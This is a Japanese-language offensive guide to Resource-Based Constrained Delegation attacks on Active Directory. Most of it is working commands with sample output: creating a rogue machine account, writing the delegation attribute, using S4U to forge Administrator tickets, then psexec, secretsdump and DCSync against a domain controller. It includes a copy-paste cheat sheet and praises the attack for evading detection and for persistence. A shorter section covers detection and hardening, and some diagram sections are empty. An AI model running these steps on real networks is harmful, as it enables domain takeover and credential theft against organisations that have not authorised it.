






# RBCD (Resource-Based Constrained Delegation) 攻撃ガイド

Kerberos 委任の悪用による権限昇格の完全ガイド。

---

## 目次

1. [Kerberos 委任の基礎](#kerberos-委任の基礎)
2. [RBCD とは](#rbcd-とは)
3. [RBCD 攻撃の前提条件](#rbcd-攻撃の前提条件)
4. [攻撃フロー (シーケンス図)](#攻撃フロー-シーケンス図)
5. [攻撃コマンド](#攻撃コマンド)
6. [実践的なシナリオ](#実践的なシナリオ)
7. [検出と防御](#検出と防御)
8. [関連する攻撃手法](#関連する攻撃手法)

---

## Kerberos 委任の基礎

### 委任の種類

Active Directory には 3 種類の Kerberos 委任がある:

1. **Unconstrained Delegation** (制約なし委任)
2. **Constrained Delegation** (制約付き委任)
3. **Resource-Based Constrained Delegation** (RBCD)

### 委任が必要な理由



---

## RBCD とは

### 主な特徴

- **コンピューターアカウント側で設定する** (従来の委任は委任する側で設定)
- **msDS-AllowedToActOnBehalfOfOtherIdentity** 属性で制御される
- Domain Admin 権限なしで設定可能 (書き込み権限のみ必要)
- **S4U2Self** と **S4U2Proxy** を使用する

### 従来の委任との違い



---

## RBCD 攻撃の前提条件

### ✅ 必要な条件

1. **対象コンピューターへの書き込み権限**

    - `GenericWrite`
    - `GenericAll`
    - `WriteProperty` (msDS-AllowedToActOnBehalfOfOtherIdentity)
    - `WriteDACL`
2. **制御できるコンピューターアカウント**

    - 新しいコンピューターアカウントを作成できる (`ms-DS-MachineAccountQuota > 0`)
    - または既存のコンピューターアカウントの制御権がある
3. **対象へのアクセス**

    - 対象に Service Principal Name (SPN) がある
    - 対象がドメインに参加している

### 攻撃シナリオの例

- ユーザーが自分のコンピューターに `GenericAll` 権限を持っている (デフォルト設定)
- Exchange Server 等の特権サービスアカウントが誤設定されている
- GPO 経由で過剰な権限が付与されている

---

## 攻撃フロー (シーケンス図)

### 完全な攻撃シーケンス



### S4U 拡張の詳細



---

## 攻撃コマンド

### 1. 権限の確認

**PowerView (Windows)**

```powershell
# PowerView をインポート
Import-Module .\PowerView.ps1

# 対象の権限を確認
Get-DomainObjectAcl -Identity WEB01 | Where-Object {$_.SecurityIdentifier -eq (Get-DomainUser john).objectsid}

# または特定の権限を検索
Get-DomainObjectAcl -Identity WEB01 -ResolveGUIDs | Where-Object {$_.ActiveDirectoryRights -match "GenericWrite|GenericAll|WriteProperty"}
```

**BloodHound (推奨)**

```cypher
// BloodHound クエリ: john から制御可能なコンピューター
MATCH (u:User {name:"JOHN@CORP.LOCAL"})-[r:GenericAll|GenericWrite|WriteProperty|WriteDacl]->(c:Computer)
RETURN u,r,c

// 最短攻撃パス
MATCH p=shortestPath((u:User {name:"JOHN@CORP.LOCAL"})-[*1..]->(c:Computer))
WHERE ANY(rel in relationships(p) WHERE type(rel) IN ["GenericAll","GenericWrite","WriteProperty","WriteDacl"])
RETURN p
```

**Linux (Impacket)**

```bash
# dacledit.py で権限を確認
impacket-dacledit -action read -principal john -target WEB01$ corp.local/john:'Password123!' -dc-ip 10.10.10.100
```

### 2. MachineAccountQuota の確認

**PowerShell**

```powershell
# ドメイン全体のクォータを確認
Get-DomainObject -Identity "DC=corp,DC=local" -Properties ms-DS-MachineAccountQuota

# 現在の作成済みコンピューター数
(Get-DomainComputer).Count
```

**Linux**

```bash
# ldapsearch で確認
ldapsearch -x -H ldap://10.10.10.100 -D "cn=john,cn=users,dc=corp,dc=local" -w 'Password123!' -b "dc=corp,dc=local" "(objectClass=domain)" ms-DS-MachineAccountQuota

# 出力例: ms-DS-MachineAccountQuota: 10
```

### 3. 偽コンピューターアカウントの作成

**Powermad (Windows)**

```powershell
# Powermad をインポート
Import-Module .\Powermad.ps1

# 新しいコンピューターアカウントを作成
New-MachineAccount -MachineAccount FAKE01 -Password $(ConvertTo-SecureString 'Password123!' -AsPlainText -Force)

# 確認
Get-DomainComputer FAKE01
```

**Impacket (Linux) - 推奨**

```bash
# addcomputer.py でコンピューターを作成
impacket-addcomputer -computer-name 'FAKE01$' -computer-pass 'Password123!' -dc-ip 10.10.10.100 corp.local/john:'Password123!'

# 出力例:
# [*] Successfully added machine account FAKE01$ with password Password123!
```

**StandIn (Windows - 代替)**

```powershell
# StandIn でコンピューターを作成
.\StandIn.exe --computer FAKE01 --make
```

### 4. RBCD の設定

**PowerView (Windows)**

```powershell
# PowerView で RBCD を設定

# FAKE01$ の SID を取得
$ComputerSid = Get-DomainComputer FAKE01 -Properties objectsid | Select-Object -ExpandProperty objectsid

# Security Descriptor を作成
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)

# WEB01 の msDS-AllowedToActOnBehalfOfOtherIdentity に設定
Set-DomainObject -Identity WEB01 -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose
```

**Impacket rbcd.py (Linux) - 推奨**

```bash
# rbcd.py で RBCD を設定
impacket-rbcd -delegate-from 'FAKE01$' -delegate-to 'WEB01$' -dc-ip 10.10.10.100 -action write corp.local/john:'Password123!'

# 出力例:
# [*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
# [*] Delegation rights modified successfully!
# [*] FAKE01$ can now impersonate users on WEB01$ via S4U2Proxy
```

**確認**

```bash
# 設定した RBCD を確認
impacket-rbcd -delegate-to 'WEB01$' -dc-ip 10.10.10.100 -action read corp.local/john:'Password123!'

# 出力例:
# [*] Accounts allowed to act on behalf of other identity:
# [*]     FAKE01$       (S-1-5-21-...)
```

### 5. S4U 攻撃の実行 (チケットの取得)

**Impacket getST.py (Linux) - 推奨**

```bash
# getST.py で Administrator のサービスチケットを取得
impacket-getST -spn cifs/web01.corp.local -impersonate Administrator -dc-ip 10.10.10.100 corp.local/FAKE01$:'Password123!'

# 出力:
# [*] Getting TGT for user
# [*] Impersonating Administrator
# [*] Requesting S4U2self
# [*] Requesting S4U2Proxy
# [*] Saving ticket in Administrator@cifs_web01.corp.local@CORP.LOCAL.ccache

# 複数のサービスを指定
impacket-getST -spn cifs/web01.corp.local -spn http/web01.corp.local -impersonate Administrator -dc-ip 10.10.10.100 corp.local/FAKE01$:'Password123!'
```

**Rubeus (Windows)**

```powershell
# Rubeus で S4U 攻撃
.\Rubeus.exe s4u /user:FAKE01$ /rc4:[NTLM hash of FAKE01$] /impersonateuser:Administrator /msdsspn:cifs/web01.corp.local /ptt

# または
.\Rubeus.exe s4u /user:FAKE01$ /password:Password123! /impersonateuser:Administrator /msdsspn:cifs/web01.corp.local /ptt

# /ptt = Pass-the-Ticket (自動的にメモリに注入)
```

**NTLM ハッシュの計算**

```bash
# FAKE01$ の NTLM ハッシュを計算
python3 -c 'import hashlib; print(hashlib.new("md4", "Password123!".encode("utf-16le")).hexdigest())'

# 出力例: 32ED87BDB5FDC5E9CBA88547376818D4
```

### 6. 対象へのアクセス

**Linux (Impacket)**

```bash
# KRB5CCNAME 環境変数にチケットをセット
export KRB5CCNAME=Administrator@cifs_web01.corp.local@CORP.LOCAL.ccache

# SMB アクセス
impacket-smbexec -k -no-pass web01.corp.local

# または PSExec
impacket-psexec -k -no-pass Administrator@web01.corp.local

# または secretsdump
impacket-secretsdump -k -no-pass web01.corp.local

# WMI 実行
impacket-wmiexec -k -no-pass Administrator@web01.corp.local
```

**Windows**

```powershell
# /ptt でチケットがメモリに注入されている場合

# SMB アクセス
dir \\web01\c$

# PSExec
.\PsExec.exe \\web01 cmd

# WinRM
Enter-PSSession -ComputerName web01

# リモートコマンド実行
Invoke-Command -ComputerName web01 -ScriptBlock { whoami }
```

### 7. 追加 SPN でのアクセス

```bash
# HTTP サービス用のチケットを取得
impacket-getST -spn http/web01.corp.local -impersonate Administrator -dc-ip 10.10.10.100 corp.local/FAKE01$:'Password123!'
export KRB5CCNAME=Administrator@http_web01.corp.local@CORP.LOCAL.ccache

# LDAP サービス
impacket-getST -spn ldap/web01.corp.local -impersonate Administrator -dc-ip 10.10.10.100 corp.local/FAKE01$:'Password123!'

# HOST サービス (複数のサービスを含む)
impacket-getST -spn host/web01.corp.local -impersonate Administrator -dc-ip 10.10.10.100 corp.local/FAKE01$:'Password123!'
```

---

## 実践的なシナリオ

### シナリオ 1: ユーザーが自分の PC に権限を持っている場合

多くの環境では、ユーザーが自分のコンピューターに `GenericAll` 権限を持っている。

```bash
# 1. 権限を確認
impacket-dacledit -action read -principal john -target JOHN-PC$ corp.local/john:'Password123!' -dc-ip 10.10.10.100
# GenericAll 権限を確認

# 2. 偽コンピューターを作成
impacket-addcomputer -computer-name 'EVILPC$' -computer-pass 'EvilPass123!' -dc-ip 10.10.10.100 corp.local/john:'Password123!'

# 3. RBCD を設定
impacket-rbcd -delegate-from 'EVILPC$' -delegate-to 'JOHN-PC$' -dc-ip 10.10.10.100 -action write corp.local/john:'Password123!'

# 4. チケットを取得
impacket-getST -spn cifs/john-pc.corp.local -impersonate Administrator -dc-ip 10.10.10.100 corp.local/EVILPC$:'EvilPass123!'

# 5. アクセス
export KRB5CCNAME=Administrator@cifs_john-pc.corp.local@CORP.LOCAL.ccache
impacket-psexec -k -no-pass Administrator@john-pc.corp.local
```

### シナリオ 2: ドメインコントローラーへの昇格

DC に `GenericWrite` 権限がある場合 (稀だが強力):

```bash
# 1. DC の権限を確認
impacket-dacledit -action read -principal john -target DC01$ corp.local/john:'Password123!' -dc-ip 10.10.10.100

# 2. 偽コンピューターを作成
impacket-addcomputer -computer-name 'FAKEDC$' -computer-pass 'FakeDC123!' -dc-ip 10.10.10.100 corp.local/john:'Password123!'

# 3. RBCD を設定
impacket-rbcd -delegate-from 'FAKEDC$' -delegate-to 'DC01$' -dc-ip 10.10.10.100 -action write corp.local/john:'Password123!'

# 4. DCSync 用チケットを取得
impacket-getST -spn ldap/dc01.corp.local -impersonate Administrator -dc-ip 10.10.10.100 corp.local/FAKEDC$:'FakeDC123!'

# 5. DCSync を実行
export KRB5CCNAME=Administrator@ldap_dc01.corp.local@CORP.LOCAL.ccache
impacket-secretsdump -k -no-pass -just-dc corp.local/Administrator@dc01.corp.local

# Domain Admin ハッシュを取得!
```

### シナリオ 3: コンピューターアカウントをすでに制御している場合

```bash
# コンピューターアカウントのパスワードをすでに知っている場合
# (例: LAPS の脆弱性、平文パスワードの発見 等)

# 1. 制御しているコンピューター: COMPROMISED01$
# パスワード: CompPass123!

# 2. 対象: WEB01$
# 権限: COMPROMISED01$ が WEB01$ に GenericWrite を持っている

# 3. RBCD を設定
impacket-rbcd -delegate-from 'COMPROMISED01$' -delegate-to 'WEB01$' -dc-ip 10.10.10.100 -action write corp.local/COMPROMISED01$:'CompPass123!'

# 4. チケットを取得して攻撃
impacket-getST -spn cifs/web01.corp.local -impersonate Administrator -dc-ip 10.10.10.100 corp.local/COMPROMISED01$:'CompPass123!'

export KRB5CCNAME=Administrator@cifs_web01.corp.local@CORP.LOCAL.ccache
impacket-psexec -k -no-pass Administrator@web01.corp.local
```

---

## 検出と防御

### 検出方法

**1. イベントログの監視**

```powershell
# イベント ID 4742: コンピューターアカウントの変更
Get-WinEvent -FilterHashtable @{LogName='Security';Id=4742} | Where-Object {$_.Message -match "msDS-AllowedToActOnBehalfOfOtherIdentity"}

# イベント ID 4741: コンピューターアカウントの作成
Get-WinEvent -FilterHashtable @{LogName='Security';Id=4741}

# イベント ID 4769: Kerberos サービスチケットリクエスト
# S4U2Self/S4U2Proxy を検出
Get-WinEvent -FilterHashtable @{LogName='Security';Id=4769} | Where-Object {$_.Message -match "Ticket Options.*0x40810000"}
```

**2. RBCD 設定の監査**

```powershell
# すべてのコンピューターの RBCD 設定を確認
Get-DomainComputer | Get-DomainObjectAcl -ResolveGUIDs | Where-Object {$_.ObjectAceType -eq "msDS-AllowedToActOnBehalfOfOtherIdentity"}

# または
Get-ADComputer -Filter * -Properties msDS-AllowedToActOnBehalfOfOtherIdentity | Where-Object {$_.'msDS-AllowedToActOnBehalfOfOtherIdentity' -ne $null}
```

**3. 新しいコンピューターアカウントの監視**

```powershell
# 最近 (24 時間以内) に作成されたコンピューター
Get-ADComputer -Filter {whenCreated -gt $((Get-Date).AddDays(-1))} -Properties whenCreated | Select-Object Name,whenCreated
```

### 防御策

**1. MachineAccountQuota を 0 に設定**

```powershell
# ドメインレベルで設定
Set-ADDomain -Identity corp.local -Replace @{"ms-DS-MachineAccountQuota"="0"}

# 確認
Get-ADDomain | Select-Object -ExpandProperty DistinguishedName | Get-ADObject -Properties ms-DS-MachineAccountQuota
```

**2. コンピューターアカウントへの書き込み権限を制限**

```powershell
# 不要な GenericWrite/GenericAll 権限を削除
# 削除前に BloodHound で監査を実施
```

**3. Protected Users グループを使用**

```powershell
# 特権ユーザーを Protected Users に追加
Add-ADGroupMember -Identity "Protected Users" -Members Administrator,krbtgt

# Protected Users は委任を使用できない
```

**4. RBCD 監視スクリプトの展開**

```powershell
# RBCD 設定を定期的に監査
$computers = Get-ADComputer -Filter * -Properties msDS-AllowedToActOnBehalfOfOtherIdentity
foreach ($computer in $computers) {
    if ($computer.'msDS-AllowedToActOnBehalfOfOtherIdentity') {
        Write-Warning "$($computer.Name) has RBCD configured!"
    }
}
```

---

## 関連する攻撃手法

### Unconstrained Delegation 攻撃



**攻撃コマンド**

```powershell
# Unconstrained Delegation サーバーを検索
Get-DomainComputer -Unconstrained

# TGT を抽出
.\Rubeus.exe dump

# または Mimikatz
sekurlsa::tickets /export
```

### Constrained Delegation 攻撃



**攻撃コマンド**

```bash
# Constrained Delegation のアカウントを検索
Get-DomainComputer -TrustedToAuth
Get-DomainUser -TrustedToAuth

# getST で攻撃
impacket-getST -spn cifs/target.corp.local -impersonate Administrator -hashes :NTLMHASH corp.local/serviceaccount$
```

### Shadow Credentials 攻撃

RBCD に似ているが証明書ベースの攻撃:

```bash
# pywhisker で Shadow Credentials を設定
python3 pywhisker.py -d corp.local -u john -p 'Password123!' --target WEB01$ --action add

# 証明書で認証
certipy auth -pfx web01.pfx -dc-ip 10.10.10.100
```

---

## トラブルシューティング

### エラー 1: "KDC_ERR_BADOPTION"

**原因**: 対象に `TrustedToAuthForDelegation` フラグが設定されていない。

**解決策**:

```bash
# WEB01$ が委任を受け入れるよう設定されているか確認
Get-ADComputer WEB01 -Properties TrustedToAuthForDelegation
```

### エラー 2: "KRB_AP_ERR_MODIFIED"

**原因**: チケットが無効、または時刻同期の問題。

**解決策**:

```bash
# NTP で時刻を同期
sudo ntpdate 10.10.10.100

# または
sudo timedatectl set-ntp true
```

### エラー 3: "STATUS_ACCESS_DENIED"

**原因**: RBCD の設定が誤っているか、SPN が存在しない。

**解決策**:

```bash
# RBCD 設定を再確認
impacket-rbcd -delegate-to 'WEB01$' -action read corp.local/john:'Password123!' -dc-ip 10.10.10.100

# SPN を確認
setspn -L WEB01
```

---

## チートシート

### 完全な攻撃フロー (コピー＆ペースト用)

```bash
# === 1. 権限を確認 ===
impacket-dacledit -action read -principal john -target WEB01$ corp.local/john:'Password123!' -dc-ip 10.10.10.100

# === 2. 偽コンピューターを作成 ===
impacket-addcomputer -computer-name 'FAKE01$' -computer-pass 'Password123!' -dc-ip 10.10.10.100 corp.local/john:'Password123!'

# === 3. RBCD を設定 ===
impacket-rbcd -delegate-from 'FAKE01$' -delegate-to 'WEB01$' -dc-ip 10.10.10.100 -action write corp.local/john:'Password123!'

# === 4. チケットを取得 ===
impacket-getST -spn cifs/web01.corp.local -impersonate Administrator -dc-ip 10.10.10.100 corp.local/FAKE01$:'Password123!'

# === 5. アクセス ===
export KRB5CCNAME=Administrator@cifs_web01.corp.local@CORP.LOCAL.ccache
impacket-psexec -k -no-pass Administrator@web01.corp.local
```

### 主要ツール

| ツール | 用途 |
|---|---|
| **PowerView** | 権限の列挙と RBCD 設定 (Windows) |
| **Impacket rbcd.py** | RBCD の設定 (Linux) |
| **Impacket getST.py** | S4U 攻撃 / チケット取得 |
| **Rubeus** | S4U 攻撃 (Windows) |
| **BloodHound** | 攻撃パスの可視化 |
| **Powermad** | コンピューターアカウントの作成 |

---

## まとめ

RBCD 攻撃が強力で人気がある理由:

✅ **Domain Admin 不要** - GenericWrite のみで実行可能
✅ **検出が困難** - 正規の Kerberos プロトコルを使用
✅ **柔軟性が高い** - 任意のユーザーを偽装可能
✅ **永続化に向いている** - RBCD 設定を残しておけば再侵入が容易
